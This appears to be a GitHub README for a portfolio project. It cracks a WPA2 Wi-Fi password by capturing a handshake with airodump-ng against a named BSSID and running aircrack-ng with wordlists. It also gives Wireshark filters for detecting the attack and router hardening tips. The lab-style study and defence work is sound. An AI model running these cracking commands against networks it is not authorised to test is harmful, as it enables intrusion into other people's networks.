










# Wi-Fi Security Analysis: Attacking & Defending WPA2 Networks

## 📌 Project Overview
This project demonstrates a **Wi-Fi security assessment** by attacking a WPA2-PSK network and implementing defensive measures to protect against real-world threats. 

✅ **Attack Scenario:** Capturing a WPA2 handshake and cracking the Wi-Fi password.  
✅ **Detection Methods:** Wireshark analysis, router logs, and intrusion detection tools.  
✅ **Defensive Measures:** WPA2-AES, MAC filtering, and security hardening.

---

## 🔥 1. Attack Execution: Capturing WPA2 Handshake

### **1.1 Setup: Enable Monitor Mode on TL Adapter**
```bash
sudo airmon-ng check kill  
sudo airmon-ng start wlan0  
iwconfig
```


### **1.2 Scan for Networks & Identify Target**
```bash
sudo airodump-ng wlan0  
```


### **1.3 Capture WPA2 Handshake**
```bash
sudo airodump-ng -c 5 --bssid 1C:3B:F3:73:99:4C -w capture wlan0  
```


### **1.4 Verify Handshake in Aircrack-ng**
```bash
sudo aircrack-ng capture-05.cap  
```


---

## 🕵️ 2. Detection: Identifying the Attack

### **2.1 Analyze Handshake in Wireshark**
- Open `capture-05.cap` in Wireshark.
- Apply filter: `eapol`


### **2.2 Expand Key Details in Wireshark**
- Expand **802.1X Authentication** → **Key Information**


### **2.3 Detect Deauthentication Attack in Wireshark**
- Apply filter: `wlan.fc.type_subtype == 0x0c`


---

## 🔓 3. Cracking WPA2 Password

### **3.1 Run Aircrack-ng with RockYou Wordlist**
```bash
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 1C:3B:F3:73:99:4C capture-05.cap
```


### **3.2 If RockYou Fails, Use a Custom Wordlist**
```bash
echo -e "Test12345!\nTest12345\ntest12345!" > custom.txt  
sudo aircrack-ng -w custom.txt -b 1C:3B:F3:73:99:4C capture-05.cap  
```


---

## 🛡️ 4. Defense Strategies: Securing Wi-Fi Against Attacks

### **4.1 Strengthen WPA2 Security**
- **Set Encryption:** WPA2-PSK with AES (**never TKIP**).
- **Disable WPS** (to prevent WPS PIN attacks).


### **4.2 Enable MAC Filtering**
- **Whitelist trusted MAC addresses** in router settings.
- **Block unknown devices from connecting.**

---

## 🎯 Why This Project Matters for SOC Teams
🔹 **Real-World Threat:** Wi-Fi attacks are used in penetration testing and adversary simulations.  
🔹 **SOC Detection Relevance:** SOC analysts monitor for unauthorized deauth attacks and suspicious EAPOL packets.  
🔹 **Defensive Hardening:** This project demonstrates how to **detect & mitigate Wi-Fi attacks effectively**.

---

## 📌 Conclusion
This project **simulates a real-world Wi-Fi attack** and **demonstrates key cybersecurity defense mechanisms**. It is valuable for anyone looking to break into **SOC Level 1 roles, penetration testing, or cybersecurity research.**

**Next Steps:** 
- Implement **Wi-Fi Intrusion Detection** using ELK or Splunk.
- Automate attack detection with Python scripts.

🔗 **Follow my cybersecurity journey on LinkedIn & GitHub!** 🚀

